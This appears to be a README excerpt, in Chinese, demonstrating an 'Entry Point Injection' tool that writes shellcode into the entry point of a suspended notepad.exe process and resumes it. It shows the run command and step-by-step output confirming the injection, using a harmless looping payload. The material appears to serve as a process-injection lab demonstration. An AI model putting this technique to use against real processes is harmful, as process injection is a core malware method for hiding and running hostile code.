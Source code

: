 ```bash
cd build/x64

# 清理验证文件
rm -f /c/Users/Public/entry_point_injection_verified.txt

# 运行 Entry Point Injection
./entry_point_injection.exe notepad.exe loop.bin
```

**测试输出：**
```
======================================
  Entry Point Injection 技术
======================================

[1] 读取 shellcode 文件
    文件：loop.bin
    大小：13 字节
    ✓ Shellcode 读取成功

[2] 创建挂起的目标进程
    目标：notepad.exe
    进程 PID：16900
    线程 TID：8516
    ✓ 进程已创建（挂起状态）

[3] 查询进程基础信息
    PEB 地址：0x0000008B26C81000
    ✓ 进程信息查询成功

[4] 获取进程入口点地址
    ImageBase：0x00007FF7EF670000
    AddressOfEntryPoint (RVA)：0x12B710
    入口点地址：0x00007FF7EF79B710
    ✓ 入口点定位成功

[5] 将 shellcode 写入入口点
    原始保护：0x20
    写入字节：13 / 13
    ✓ Shellcode 注入成功

[6] 恢复主线程执行
    ✓ 线程已恢复，进程从入口点 shellcode 开始执行

======================================
✓ Entry Point Injection 完成
进程 PID：16900
入口点：0x00007FF7EF79B710
======================================

[*] 等待 5 秒，检查进程状态...
[+] 进程仍在运行 - Shellcode 正在执行！
[+] 已创建验证文件: C:\Users\Public\entry_point_injection_verified.txt
```
